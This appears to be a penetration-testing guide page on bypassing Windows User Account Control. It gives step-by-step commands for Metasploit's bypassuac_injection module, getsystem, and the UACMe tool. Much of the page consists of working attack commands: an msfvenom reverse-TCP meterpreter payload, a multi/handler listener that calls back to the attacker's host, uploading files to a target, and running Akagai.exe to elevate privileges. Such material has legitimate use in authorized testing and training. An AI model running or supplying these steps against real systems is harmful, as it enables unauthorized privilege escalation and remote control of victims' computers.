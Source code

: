 User Account Control (UAC) is a security feature in Microsoft Windows designed to prevent unauthorized changes to the operating system. It ensures that any changes requiring administrative privileges must be explicitly approved by the user. UAC helps protect against malware and unauthorized software installations.

![](../../Images/uac_example.png)

## BypassUAC_injection (Metasploit)
1. **Set up the module**: To use the `bypassuac_injection` module, start by selecting it within Metasploit:
```bash
msf6 > use exploit/windows/local/bypassuac_injection
```

2. **Set required options**: Once the module is selected, set the required options:

- `SESSION`: The session ID of the compromised machine.
- `PAYLOAD`: The payload you want to deliver (e.g., `windows/x64/meterpreter/reverse_tcp`).
- `TARGET`: The target architecture used by the victim machine.
- `LHOST`: The attacker's local host IP address.
- `LPORT`: The attacker's listening port for the reverse connection.

3. **Exploit the system**:

```bash
run
```

4. **Escalate privileges**: After running the exploit a meterpreter session will spawn with the privileges of the original session. To gain the Authority system privileges is necessary to execute the following command on the meterpreter session:

```bash
getsystem
```

## UACMe

[UACME](https://github.com/hfiref0x/UACME) is a tool designed to bypass User Account Control (UAC) prompts on Windows operating systems. It leverages vulnerabilities in the UAC mechanism to elevate privileges without requiring user interaction. UACME is primarily used for **post-exploitation** activities to escalate privileges during penetration testing or ethical hacking exercises.

#### Usage
1. **Select the key**

In the **Usage** section of the ReadMe file, there is a dropdown menu called **"keys"** where you can select the best option depending on your specific scenario. This allows you to tailor the tool's functionality to your needs, making it more adaptable for different environments or exploitation techniques.

2. **Create a payload file**

Using **msfvenom**, you can generate a reverse shell payload file. Here's a basic example to create a reverse TCP shell:

```bash
msfvenom -p windows/meterpreter/reverse_tcp LHOST=<Your_IP> LPORT=<Your_Port> -f exe > reverse_shell.exe
```

3. **Set a listener**
Set up a listener to wait for incoming connections from the reverse shell. In Metasploit, this can be done using the following command:

```bash
msfconsole
use exploit/multi/handler
set PAYLOAD windows/meterpreter/reverse_tcp
set LHOST <Your_IP>
set LPORT <Your_Port>
exploit
```

4. **Upload the akagai and reverse shell file**

You will need to upload both the Akagai executable and the reverse shell payload to the target machine. This can be done via various methods like web shell, SMB, or other file transfer techniques, depending on the access you've gained.


6. **Execute the exploit**

Once everything is set up, execute the exploit with the following command:

```
.\Akagai.exe <key> <full_path_to_rev_shell>
```